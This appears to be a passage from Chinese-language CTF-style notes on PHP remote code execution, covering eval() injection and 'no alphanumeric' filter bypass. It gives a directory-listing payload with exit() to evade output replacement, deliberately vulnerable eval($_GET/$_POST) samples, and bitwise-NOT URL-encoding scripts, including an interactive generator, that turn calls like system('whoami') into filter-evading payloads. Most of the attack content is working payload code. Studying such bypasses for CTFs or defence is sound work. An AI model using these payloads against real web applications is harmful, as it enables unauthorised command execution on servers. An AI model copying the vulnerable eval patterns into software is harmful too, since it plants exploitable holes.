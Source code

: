 如果结果被替换，可以在代码后边加一个exit退出，进而绕过对于结果的替换

```
$a=opendir('/');while(($file=readdir($a)) != false) {echo $file."";}exit();
```

### eval类命令执行

所谓eval类命令执行即原题中给出了eval()这一函数，并让其参数可控

**示例代码**

```
<?php
eval($_POST['1']);
?>
```

eval函数的本质是将任意字符串当作php代码执行，我们在进行get和post传参是传入的参数默认都是字符串形式的，正好也一定会符合这个条件

#### 无字母数字rce

简单来说，无字母数字rce就是把我们可控参数中的数字和字母都ban掉了，我们需要通过不可见字符的运算构造出可见字符，并执行相应命令，下面的绕过姿势本质都是通过不可见字符之间的关系运算构造出我们所需要的字符串并执行我们的恶意命令。

**示例代码**

```
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
eval($_GET['shell']);
}
```

##### 取反绕过

通过取反操作使得原命令变为不可见字符，绕过waf检测，在eval执行时再通过取反操作还原为原恶意命令，进行执行任意恶意代码

**构造脚本1**

```
<?php
$a=urlencode(~('call_user_func'));
$b=urlencode(~('system'));
$c=urlencode(~('whoami'));
echo $a;
echo "\n";
echo $b;
echo "\n";
echo $c;
echo "\n";
echo "(~".$a.")(~".$b.",~".$c.",'');";
?>
```

**构造脚本2**

```
<?php


fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```
